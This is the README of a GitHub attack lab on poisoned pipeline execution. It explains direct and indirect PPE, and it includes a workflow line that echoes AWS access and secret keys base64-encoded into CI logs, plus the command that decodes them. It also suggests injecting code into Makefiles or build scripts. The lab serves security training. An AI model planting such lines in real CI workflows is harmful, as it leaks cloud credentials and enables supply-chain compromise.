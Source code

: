 # CI CD Risks - Pipeline Poisoning Attack Lab

## Prep
1. Within AWS Account, create Amazon Elastic Container Registry named `cicd-sec`
1. Add Github Repository Secrets 
    1. `AWS_ACCESS_KEY_ID`
    1. `AWS_REGION`
    1. `AWS_SECRET_ACCESS_KEY`
    1. `REPO_NAME`
    1. `ECR_REGISTRY`
1. Ensure Branch Protection is disabled within GitHub Repository


## Understanding Direct PPE

Direct PPE (D-PPE): In a D-PPE scenario, the attacker modifies the CI config file in a repository they have access to, either by pushing the change directly to an unprotected remote branch on the repo, or by submitting a PR with the change from a branch or a fork. Since the CI pipeline execution is triggered off of the “push” or ”PR” events, and the pipeline execution is defined by the commands in the modified CI configuration file, the attacker’s malicious commands ultimately run in the build node once the build pipeline is triggered.

![i-ppe](img/d-ppe.png)

## Execute Direct-PPE 

Add line of code to extract `AWS_ACCESS_KEY_ID` and `AWS_SECRET_ACCESS_KEY` during Pipeline execution after `make build` within `.github\workflows\dppe.yaml` 

```
echo "accesskey: ${{ env.AWS_ACCESS_KEY_ID }}  secretkey: ${{ secrets.AWS_SECRET_ACCESS_KEY }}" | base64
```

Extract Output from GitHub Workflow Output and 

```
echo "<ENCODED_SECRETS>" | base64 -d
```

example output
```
echo "YWNjZXNza2V5OiBleGFtcGxlLWFjY2VzcyBrZXkgIHNlY3JldGtleTogZXhhbXBsZS1zZWNyZXQta2V5Cg==" | base64 -d
accesskey: example-access key  secretkey: example-secret-key
```

## Understanding Indirect PPE

Indirect PPE (I-PPE): In certain cases, the possibility of D-PPE is not available to an adversary with access to an SCM repository:
- If the pipeline is configured to pull the CI configuration file from a separate, protected branch in the same repository.
- If the CI configuration file is stored in a separate repository from the source code, without the option for a user to directly edit it.
- If the CI build is defined in the CI system itself – instead of in a file stored in the source code.

In such a scenario, the attacker can still poison the pipeline by injecting malicious code into files referenced by the pipeline configuration file, for example:

- Makefile
- build.sh
- code tests etc..

Now, the scenario is - we cannot directly push into main branch, it will be protected, we have to find other ways to inject the malicious code.

![i-ppe](img/i-ppe.png)
## Execute Indirect-PPE 
